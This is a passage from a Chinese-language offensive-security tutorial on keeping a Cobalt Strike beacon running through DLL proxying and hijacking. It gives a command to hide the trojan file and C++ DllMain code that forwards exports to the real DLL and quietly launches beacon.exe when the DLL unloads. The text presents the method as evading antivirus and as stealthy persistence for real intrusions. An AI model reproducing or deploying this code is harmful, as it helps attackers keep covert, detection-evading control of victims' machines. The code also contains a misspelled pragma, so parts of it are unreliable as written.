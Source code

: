 ```
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }
    return TRUE;
}
```

Ps：这种直接生成的 dll 不免杀，实战中需要做免杀处理。

### dll 加载免杀马上线

首先给这个文件加一个隐藏属性:

```
attrib +h beacon.exe
```

接着采用 DLL 去加载这个木马，

代码如下：

```
#include "pch.h"
#include "windows.h"
//开始转发，将函数方法转发
//导出函数
#pragma comment(linker,"/EXPORT:add=testdll.add,@1")
#pragma commnet(linker,"/EXPORT:message=testdll.message,@2")
//入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
        STARTUPINFO si = { sizeof(si) };
        PROCESS_INFORMATION pi;
        CreateProcess(TEXT("path\\beacon.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);
    }

    return TRUE;
}
```

然后后面直接去尝试加载就行了, 程序执行完的时候 (`DLL_PROCESS_DETACH`), 会自动加载我们的 cs 马。

说一下这种方案的好处, 就是 DLL 根本没有恶意操作, 所以肯定会免杀，但是你的木马文件要做好免杀，这种思路主要应用于通过劫持一些程序的 DLL, 然后实现隐蔽的重启上线，也就是权限持续维持，单单杀启动项对 DLL 进行权限维持的方式来说是没有用的。

参考文章：https://www.anquanke.com/post/id/232891#h2-12  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)
